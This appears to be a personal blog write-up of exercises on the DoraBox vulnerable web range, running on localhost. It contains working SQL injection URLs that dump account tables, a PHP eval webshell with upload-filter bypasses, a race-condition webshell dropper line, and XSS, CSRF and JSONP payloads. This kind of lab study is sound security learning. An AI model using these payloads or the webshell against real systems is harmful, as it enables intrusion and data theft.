




dorabox冒险手记
# SQLi 字符型
# 过程：
字符型和数字型相比，就是要闭合单引号吧
-
单引号闭合，# 用 url 编码 %23：
http://localhost/dorabox/sql_injection/sql_string.php ?title=1' or 1=1 %23' &submit=submit下面就是和数字型注入相同的操作。
-
利用 order by 或者 group by 判断字段数：
正常：
http://localhost/dorabox/sql_injection/sql_string.php ?title=1' or 1=1 order by 3 %23' &submit=submit报错：
http://localhost/dorabox/sql_injection/sql_string.php
?title=1’ or 1=1 order by 4 %23’
&submit=submit以上说明需要 3 个字段
-
爆该数据库所有表和 news 表有多少条数据
http://localhost/dorabox/sql_injection/sql_string.php ?title=1' union select 1,(select table_rows from information_schema.tables where table_name='news' and table_schema = database()),(select group_concat(table_name) from information_schema.tables where table_schema = database()) %23' &submit=submit因为没有 title 为’1’的文章，所以直接只会出后面攻击所得数据
注入的三个字段：
-
1 并不会输出，所以随意
-
(select table_rows from information_schema.tables where table_name=‘news’ and table_schema = database ()) ，用于统计该表的数据数量，没什么用，就是想试试看
-
(select group_concat (table_name) from information_schema.tables where table_schema = database ())，利用 group_concat () 拼接字符串爆表名
-
-
爆字段
http://localhost/dorabox/sql_injection/sql_string.php ?title=1' union select 1, 2,group_concat(column_name) from information_schema.columns where table_name = 'account' and table_schema = database() %23' &submit=submit -
爆内容
http://localhost/dorabox/sql_injection/sql_string.php ?title=1' union select 1, 2,concat_ws('-',id,rest,own) from account %23' &submit=submit
# 总结：
在 sql 注入中，注释常用’–+’，而注释符’#‘和’–' 一般不能直接使用。
- ‘#’：sql 手工注入时，浏览器地址栏输入的 '＃' 并没有发送到后台，因为 url 中 #号是用来指导浏览器动作的（例如锚点），对服务器端完全无用，# 的 url 编码是 %23，替换后可行
- ‘–’：在字符型注入时，–和单引号连接在一起时，无法形成有效的 mysql 语句，可能造成单引号未闭合错误。所以可以使用–’，也可以尝试用多行注释符（块注释符 /**/）、一对英文括号、换行符或加号来代替空格
# SQLi 搜索型
类似字符型注入，主要就是闭合
# 过程：
-
进行闭合
‘http://localhost/dorabox/sql_injection/sql_search.php
?content=’ or ‘%’=’
&submit=submit’ -
判断需要的字段数 3 个（感觉这种方法有点低级）
http://localhost/dorabox/sql_injection/sql_search.php ?content=' union select 1,2,3 and '%'=' &submit=submit -
爆表，常规手段
SELECT * FROM news WHERE content like '%$$$$$$' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() and '%'=' %' -
爆字段
http://localhost/dorabox/sql_injection/sql_search.php ?content=$$$$$$' union select 1,2, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name = 'account' and '%'=' &submit=submit
-
爆内容
http://localhost/dorabox/sql_injection/sql_search.php ?content=$$$$$$' union select 1,2, concat_ws('--',id,rest,own) from account where '%'=' &submit=submit
# 总结：
sql 通配符
| 通配符 | 描述 |
|---|---|
| % | 替代 0 个或多个字符 |
| _ | 替代一个字符 |
| [charlist] | 字符列中的任何单一字符 |
| [^charlist] 或 [!charlist] | 不在字符列中的任何单一字符 |
# JS 限制文件上传
前端进行了文件名后缀过滤

# 过程：
- 打开源代码，把蓝色框部分内容删除，即绕过验证函数
- 上传成功，路径告诉了，菜刀直连
# 总结：
遇见了一个问题，还没有解决：
为什么修改 js 代码，加上 |.php 不生效，而删除函数验证一改一个准？
据说就是不可以改（小菜菜，要在前端控制台输入该函数，才会生效）
# 任意文件上传
随便传
# 过程：
根据题目提示，获取到文件上传的路径，用菜刀直接连接
上传的 php 一句话木马 attack.php：
<?php @eval($_POST['attack']) ?>
# 总结：
-
php 一句话木马基本原理：
- @表示后面即使执行错误，也不报错 ($_POST [attack] 如果不加 @会报错，因为 attack 变量没有定义就被使用了，报错会暴露密码)
- eval () 函数，括号内的语句字符串什么的都当做代码执行
- $_POST [‘attack’] 表示以 post 的方式接收变量 attack，把变量 attack 里面的字符串当做 php 代码执行。例如，若接收到参数 attack=echo ‘attack’，此时代码变为 eval (“echo ‘attack’;”)，就会输出 attack
-
TruBW 博主举的常用的方法：
你想查看目标硬盘里有没有小黄片，可以用 php 函数：
opendir()和readdir()等等。想上传点小黄片，诬陷站主，就用 php 函数：move_uploaded_file，当然相应的 html 要写好。你想执行 cmd 命令，则用exec()。
# MIME 限制文件上传
.jpg 可以上传成功
# 过程：
- 打开网络抓包，把后缀修改为.php
- 上传成功，菜刀直连
# 总结：
MIME 介绍：
MIME（Multipurpose Internet Mail Extensions）多用途互联网邮件扩展类型。是设定某种扩展名文件用一种应用程序来打开的方式类型，当该扩展名文件被访问的时候，浏览器会自动使用指定的应用程序来打开。多用于指定一些客户端自定义的文件名，以及一些媒体文件打开方式。（来自百度百科）
常见的类型：
| 文件类型 | 后缀 | 数据包中的文件类型 |
|---|---|---|
| 超文本标记语言文本 | .html | text/html |
| xml 文档 | .xml | text/xml |
| xhtml 文档 | .xhtml | application/xhtml+xml |
| 普通文本文档 | .text | text/plain |
| RTF 文本 | .rtf | application/rtf |
| PDF 文档 | application/pdf | |
| Miscrosoft Word 文件 | .word | application/msword |
| PNG 图像 | .png | image/png |
| GIF 图形 | .gif | image/gif |
| JPEG 图形 | .jpeg,.jpg | image/jpeg |
| au 声音文件 | .au | audio/basic |
| MIDI 音乐文件 | mid,.midi | audio/midi,audio/x-midi |
| RealAudio 音乐 | .ra,.ram | audio/x-pn-realaudio |
| AVI 文件 | .avi | video/x-msvideo |
| GZIP 文件 | .gz | application/x-gzip |
| TAR 文件 | .tar | application/x-tar |
| 任意的二进制数据 | application/octet-stream |
出现在 HTTP 数据包中可能有的位置（不是很有画面感…）：
MIME 信息头有：
MIME-Version:
这个头提供了所用 MIME 的版本号。这个值习惯上为 1.0。
Content-Type:
它定义了数据的类型，以便数据能被适当的处理。有效的类型有：text，image，audio，video，applications，multipart 和 message。注意任何一个二进制附件都应该被叫做 application/octet- stream。这个头的一些用例为：image/jpg, application/mswork，multipart/mixed，这只是很少的一部分。
Content-Transfer-Encoding:
这是所有头中最重要的一个，因为它说明了对数据所执行的编码方式，客户 / MUA 将用它对附件进行解码。对于每个附件，可以使用 7bit，8bit，binary ，quoted-printable，base64 和 custom 中的一种编码方式。7bit 编码是用在 US ASCII 字符集上的常用的一种编码方式，也就是，保持它的原样。8bit 和 binary 编码一般不用。对人类可读的标准文本，如果传输要经过对格式有影响的网关时对其进行保护，可以使用 quoted printable 。Base64 是一种通用方法，在需要决定使用哪一种编码方法时，它提供了一个不用费脑子的选择；它通常用在二进制，非文本数据上。注意，任何非 7bit 数据必须用一种模式编码，这样它就可以通过 Internet 邮件网关！
Content-ID:
如果 Content-Type 是 message/external-body 或 multipart/alternative 时，这个头就有用了，它超出了本文的范围。
# Content-Description:
这是一个可选的头。它是任何信息段内容的自由文本描述。描述必须使用 us-ascii 码。
Content-Disposition:
一个试验性的头，它用于给客户程序 / MUA 提供提示，来决定是否在行内显示附件或作为单独的附件。
MIME 段头（出现在实际的 MIME 附件部分的头），除了 MIME-Version 头，可以拥有以上任何头字段。如果一个 MIME 头是信息块的一部分，它将作用于整个信息体。例如，如果 Content-Transfer-Encoding 显示在信息（指整个信息）头中，它应用于整个信息体，但是如果它显示在一个 MIME 段里，它 "只能" 用于那个段中。
注意：其可以对自动对收到的邮件进行解密。
[以上拓展来自这里
# 拓展名限制文件上传
后台进行了文件名后缀过滤，无法上传.php 文件
# 过程：
- 尝试大小写绕过，把文件名后缀改为.phP，上传成功，菜刀直连
# 总结：
因为写过 upload_labs (没写完)，就有思路
# 内容限制文件上传
对文件内容进行判读过滤
# 过程：
-
在木马文件最前面加上 GIF89a:
GIF89a <?php @eval($_POST['attack']) ?> -
上传成功，路径告诉了，菜刀直连
# 总结：
GIF89a 是文件头校验内容，服务器看到这里就会以为是 GIF 文件。
常见的文件头对应关系（入职培训上的，这个我以前还找过，就是因为菜，没有找到）：
- JPEG;.JPE;.JPG，”JPGGraphic File”
- gif，”GIF 89A”
- zip，”Zip Compressed”
- doc;.xls;.xlt;.ppt;.apr，”MS Compound Document v1 or Lotus Approach APRfile”
# SQLi 数字手工注入
# 过程：
-
输出报错：
http://localhost/dorabox/sql_injection/sql_num.php?id=1 order by 4 &submit=submit 正常输出：
http://localhost/dorabox/sql_injection/sql_num.php
?id=1 order by 3 &submit=submit以上说明，应输出 3 个字段
-
用 count (*) 统计表内数据，只有两条数据：
http://localhost/dorabox/sql_injection/sql_num.php?id=3 union select 10086,count(*),10087 from news order by 1 desc limit 1
&submit=submit -
爆数据库
http://localhost/dorabox/sql_injection/sql_num.php
?id=1 union select 3,database(),user() order by 1 desc limit 1
&submit=submit -
爆表名，利用 group_concat ()：
http://localhost/dorabox/sql_injection/sql_num.php?id=1 union select 3,group_concat(table_name),0 from information_schema.tables where table_schema = database() order by 1 desc
&submit=submit -
爆字段：
http://localhost/dorabox/sql_injection/sql_num.php
?id=1 union select 3,group_concat(column_name),0 from information_schema.columns where table_name = ‘account’ order by 1 desc
&submit=submit -
爆内容：
http://localhost/dorabox/sql_injection/sql_num.php
?id = 1 union select 3,concat_ws(",",id,rest,own),0 from account where 1=1 order by 1 desc
# 总结：
-
mysql 字符拼接方法
-
concat()
功能：将多个字符串连接成一个字符串
语法：concat (str1, str2, …)
说明：返回结果为连接参数产生的字符串，如果有任何一个参数为 null，则返回值为 null。
-
concat_ws()
功能：将多个字符串拼接成一个字符串，以自定义的符号进行分割
语法：concat (separator, str1, str2, …)
说明：第一个参数指定分隔符，若为 null, 返回结果也会为 null
-
group_concat()
功能：将 group by 产生的同一个分组中的值连接起来，返回一个字符串结果
语法：group_concat ([distinct] 要连接的字段 [order by 排序字段 asc/desc] [separator ‘分隔符’] )
说明：通过使用 distinct 可以排除重复值；如果希望对结果中的值进行排序，可以使用 order by 句子；separator 是一个字符串，缺省为一个逗号
-
-
information_schema
information_schema 数据库是 MySQL 自带的，它提供了访问数据库元数据的方式。元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括 “数据词典” 和 “系统目录”。
常用表：
- COLLATION_CHARACTER_SET_APPLICABILITY 表，和字符编码相关，包含的常用列：
- COLLATION_NAME 排序规则明
- CHARACTER_SET_NAME 与排序规则关联的字符集的名称
- TABLES 表，提供库中表信息，包含的常用列：
- Table_catalog 数据表登记目录
- Table_schema 数据表所属的数据库名
- Table_name 表名
- Table_type 表类型 [system view | base table]
- Engine 使用的数据库引擎 [MyISAM | CSV | InnoDB]
- Version 版本，默认值 10
- Row_format 行格式 [Compact | Dynamic | Fixed]
- Table_rows 表里所存多少行数据 (早知道有这个，我就)
- Avg_row_length 平均行长度
- Data_length 数据长度
- Max_data_length 最大数据长度
- Index_length 索引长度
- Create_time 表的创建时间
- Update_time 表的更新时间
- Check_time 表的检查时间
- Table_collation 表的字符校验编码集
- Chechsum 校验和
- COLUMNS 表，提供表中字段信息，包含的常用列：
- TABLE_CATALOG 包含该列的表所属的目录名称。该值始终为 def。
- TABLE_SCHEMA 字段所在数据库的名称。
- TABLE_NAME 字段所在表的名称。
- COLUMN_NAME 字段的名称。
- ORDINAL_POSITION 表中字段的位置。（可能会用 order by ORDINAL_POSITION）COLUMN_TYPE 字段数据类型。
- COLUMN_DEFAULT 字段的默认值。如果字段具有显示缺省值 NULL，或者字段定义不含 DEFAULT 子句，则该值为 NULL。
- COLUMN_TYPE 类型名称以及别的信息，比如精度或长度（以字符为单位
- CHARACTER_OCTET_LENGTH 对于字符串列，最大长度（以字节为单位
- CHARACTER_MAXIMUM_LENGTH 对于字符串列，最大长度（以字符为单位） COLUMN_KEY 名称是否已建立索引
# SSRF
# 过程：
- 利用 file 进行文件读取
# 总结：
- 其实就是有 url 的，需要访问别的资源的就可能有 ssrf 漏洞。
- 利用方式（里面好多没试过的，等我写完报告要去玩玩）
- 利用 file 协议读取本地文件（类似文件包含，想要利用这个漏洞，需要知道里面有什么文件或者目录，然后进行内容提取）
- 对服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息
- 攻击运行在内网或本地的应用程序
- 对内网 web 应用进行指纹识别，识别企业内部的资产信息
- 攻击内外网的 web 应用，主要是使用 HTTP GET 请求就可以实现的攻击
- 一些的 url 中的关键字：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain……
- COLLATION_CHARACTER_SET_APPLICABILITY 表，和字符编码相关，包含的常用列：
# 任意代码执行
根据题目提示，就是随便输代码，然后服务器执行脚本
# 过程：
- phpinfo ()，查看 php 版本信息
# 总结：
代码执行漏洞就是通过执行脚本代码，进行渗透
# 任意命令执行
根据题目提示，就是随便输命令
# 过程：
- whoami，查看服务器信息
# 总结：
看源码是利用 exec () 函数，直接调用操作系统的命令
# 反射 XSS
输入 12345678，查看源代码，发现服务器返回了输入的字符数统计，以及输入的字符串，在 html 中
# 过程：
- 加入 js 代码，alert 一下
# 总结：
XSS 反射型，就是通过 get 或者 post 请求，被后台处理过数据，并响应到前端页面上。可以通过使用白名单过滤掉输入的恶意字符进行修复。
# 存储型 XSS
# 过程：
- alert 试一下
1 | <script>alert("/XSS/")</script> |
- submit 后返回了字符数，没有 alert，刷新一下，重新加载，发现存储成功
# 总结：
存储型就是把用户输入的恶意字符串存储在服务器（数据库），一般在可以存储数据并会返回到前端代码的地方搞吧，别的用户点了，就会跳到小黑屋这种。或者利用一些平台脚本搞事情。
漏洞修复：在服务端过滤掉 HTML 的尖括号，比如 php 的自带函数 strip_tags ()，然后对于一些可以执行的函数进行手动写函数过滤，过滤掉 onchange (),onload (),onclick (),onerror () 等等函数
# DOM 型 XSS
# 过程：
-
万能 alert，：
带有 xss 的 url：http://localhost/dorabox/xss/dom_xss.php?name=<script>alert(1)<%2Fscript>&submit=submit
-
看源码是在这里打印的：
document.write(getURLValue('name'));
# 总结：
DOM 型 xss，仅仅在前端页面进行操作的，通过修改页面的 DOM 节点形成的 XSS，效果和反射型类似。
攻击者在 URL 中插入 XSS 代码，前端页面直接从 url 中获取 xss 代码并输出到页面，导致 xss 代码的执行，攻击者将带有 xss 代码的 url 发给用户，用户打开后收到攻击。
# CSRF 跨域资源
# 过程：
-
构造 html 来劫持
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
<html>
<head>
<meta charset="UTF-8">
<title>Ajax</title>
</head>
<body>
<h1>Ajax 发送 get 请求</h1>
<script>
function ajax() {
var xhr = new XMLHttpRequest();
xhr.responseType = "text";
xhr.open('GET', 'http://localhost/dorabox/csrf/userinfo.php', true);
xhr.onreadystatechange= function(e) {
if(this.status == 200){
alert(this.responseText);
}
};
xhr.send();
}
ajax();
</script>
</body>
</html>内容：
# 总结：
实话实说，这个就是借鉴网上的，解释一下js代码：
自定义ajax()方法并执行，ajax内创建XMLHttpRequest对象，设置回应内容的类型为text。
然后发送请求到服务器，其中 open(*method*,*url*,*async*)，第三个参数true为异步，异步 JavaScript 和 XML，XMLHttpRequest 对象如果要用于 AJAX 的话，其 open() 方法的 async 参数必须设置为 true。
onreadystatechange：存储函数（或函数名），每当 readyState 属性改变时，就会调用该函数。readyState存有 XMLHttpRequest 的状态。从 0 到 4 发生变化。
-
0: 请求未初始化
-
1: 服务器连接已建立
-
2: 请求已接收
-
3: 请求处理中
-
4: 请求已完成，且响应已就绪
status
200: “OK”，404: 未找到页面
最后响应成功就 alert 返回的数据
function ajax() {
var xhr = new XMLHttpRequest();
xhr.responseType = “text”;
xhr.open(‘GET’, ‘http://localhost/dorabox/csrf/userinfo.php’, true);
xhr.onreadystatechange= function(e) {
if(this.status == 200){
alert(this.responseText);
}
};
xhr.send();
}
ajax();
# JSONP 劫持
# 过程：
-
来一个 csrf 攻击代码
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
<html>
<head>
<meta charset="utf-8">
<title>JSONP劫持测试</title>
</head>
<body>
<script type="text/javascript">
function test(result)
{
alert(result.address);
}
</script>
<script type="text/javascript" src="http://localhost/dorabox/csrf/jsonp.php?callback=test"></script>
</body>
</html>
# 总结：
JSONP (JSON With Padding)，是一种特殊的 CSRF 攻击，目的是获取敏感数据，当 JSON 数据响应给网站时，浏览器立即会调用数组或者对象的构造函数。正是利用这一点，把构造方法替换成恶意代码，在构造方法中添加将 JSON 数据发送给第三方即攻击者的代码。
没写过，第一次写，写完跨域好像又多懂了一点点（好像真的懂了，但是入职培训里写的有点详细），我写完这些要再多写几道题，来一点画面感。
# 任意文件包含
# 过程：
- 直接文件包含，输出
# 总结：
网上看了很多通关记录，可是大家都是直接包含，如果不是本地靶场，那是怎么知道路径以及文件名的呢？是不是要配合文件上传一起？
# 任意文件包含
# 过程：
- 输入 1，发现限制在当前目录，但是不影响要用的文件，所以也是直接包含就可以了
# 总结：
…/ 应该可以突破把
# 条件竞争 - 支付
靶场出了点问题，页面报 php 语法错
但是语法并没有出错，百度了说是 php 版本的问题，但是我基本每个版本都试过且重启了，但是没有解决
不过反正这个题要写脚本，我也不太会，干脆跟着把 poc 撸了一遍
# 过程：
1 | import requests |
# 总结：
python 代码写的时候，总是爱打分号唉
感觉大家写脚本或者一些小工具，都喜欢用 python，有点意思
这里是看代码的时候找资料看见的（后来才发现 python 自带.chw api，不过英文的阅读起来也有点费时间就是了）：
-
Queue 是 python 标准库中的线程安全的列队 (FIFO) 实现
提供了一个适用于多线程编程的先进先出的数据结构，即列队
用来在生产者和消费者线程之间的信息传递 -
class Queue.Queue(maxsize=0)
maxsize 是个整数，指明了列队中能存放的个数上限。
一旦达到上限，插入会导致阻塞，直到列队中的数据被消费掉。
如果 maxsize 小于或者等于 0，列队大小没有限制 -
Queue,deque,queue 对比：queue 是多线程中的使用的栈，但是 Python 解释器有一个全局解释器锁 (PIL)，
导致每个 Python 进程中最多同时运行一个线程，
因此 Python 多线程程序并不能改善程序性能，不能发挥多核系统的优势。 -
multiprocessing.Queue 是 Python 2.6 引入的用来实现多进程的一种高性能栈。
-
collections.deque 是为了高效实现插入和删除操作的双向列表，适合用于队列和栈。
-
queue 实例方法：
Queue.empty (): 判断队列是否为空。和上面一样注意
Queue.full (): 判断是否满了。和上面一样注意
Queue.put (item, block=True, timeout=None): 往队列里放数据。如果满了的话，blocking = False 直接报 Full 异常。如果 blocking = True，就是等一会，timeout 必须为 0 或正数。None 为一直等下去，0 为不等，正数 n 为等待 n 秒还不能存入，报 Full 异常。
Queue.put_nowait (item): 往队列里存放元素，不等待
Queue.get (item, block=True, timeout=None): 从队列里取数据。如果为空的话，blocking = False 直接报 empty 异常。如果 blocking = True，就是等一会，timeout 必须为 0 或正数。None 为一直等下去，0 为不等，正数 n 为等待 n 秒还不能读取，报 empty 异常
Queue.get_nowait (item): 从队列里取元素，不等待两个方法跟踪入队的任务是否被消费者 daemon 进程完全消费
# 条件竞争 - 上传
看源码顺序：文件上传上来，检查后缀，后缀不在允许列表里，删除文件。
# 过程：
竞争的地方，是先删除还是先执行，关键就在于赶在删除之前执行上传的文件。
这是我们上传的文件内容，新建一个 info.php 文件，里面写入一句话木马。
1 | fputs(fopen("info.php", "w"), '<?php @eval($_POST["key"]);?>'); |
通过并发可以实现在上传成功未执行到删除代码的时候，访问执行，生成 info.php。
脚本：
1 | # -*- coding: utf-8 -*- |

# 总结：
python 的 self 竟然不是关键字？？？是因为__init__(self) 的时候创建了一个该类的实例，且名字叫 self，所以换成别的字符串，在别的函数里也能用把。
python 类变量，它的值将在这个类的所有实例之间共享。（还有在_init_() 的时候 self. 变量，这和 java 区别还蛮大的）
心得就是解题思路真的很重要，因为菜，都没见过，无从下手的感觉太难受了，是不是题目写多了就会有很多思路？希望不要写多了题目思维反而被局限了，还是要多思考。
最后，这道题真的好帅啊！！！
# 任意文件读取
输入…/，发现是可以直接读文件的
# 过程：
- 直接读取文件
# 总结：
这个，emmmm，这样的漏洞，很难找把？（傻喵）
# xxe
靶场 php 和 xml 交互的时候报错了，百度没找到解决方案，我太菜了（现在也很菜喔～我们回家摆小摊把 o (￣ε￣*)）
# 过程：
-
看前端代码，观察到服务端以 xml 的形式接收文件，然后服务器会正常返回客户端在 body 中 post 过去的 xml 代码执行结果
-
构造 xml 文件读取 attack.php
1
2
3
4
5
6
<user><username>&a;</username><password>桜桜私はあなたを愛しています</password></user>
# 总结：
xxe 就是外部实体注入嘛，可以一行代码禁用。
xxe 是由 xml 和 dtd 约束搞出来的东西，我们可以通过文件路径和变量名，回显数据。
1、 当引用的 DTD 文件是本地文件的时候，用 SYSTEM 标识，并写上”DTD 的文件路径”，如下：
1 | <!DOCTYPE 根元素 SYSTEM "DTD文件路径"> |
2、 如果引用的 DTD 文件是一个公共文件时，采用 PUBLIC 标识，如下：
1 | <!DOCTYPE 根元素 PUBLIC "DTD名称" "DTD文件的URL"> |
1. 内部实体声明
1 |
|
2. 外部实体声明
1 |
|
上述两种均为引用实体，主要在 XML 文档中被应用，引用方式：& 实体名称； 末尾要带上分号，这个引用将直接转变成实体内容。
3. 参数实体声明
1 |
|
参数实体，被 DTD 文件自身使用 ，引用方式为：% 实体名称。和通用实体一样，参数实体也可以外部引用。
允许包含外部实体，就可能存在 XXE 攻击。
【利用 1】读取本地文件
1 |
|
【利用 2】读取含特殊字符的本地文件
如果文件中含有特殊字符，如 &,<,>,",' 等，通过上述方法会报错，需要借助 CDATA，CDATA 节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml 标记。
1 |
|
# 最后哦
小心眼 + 记仇の milkii0，会打败你们的！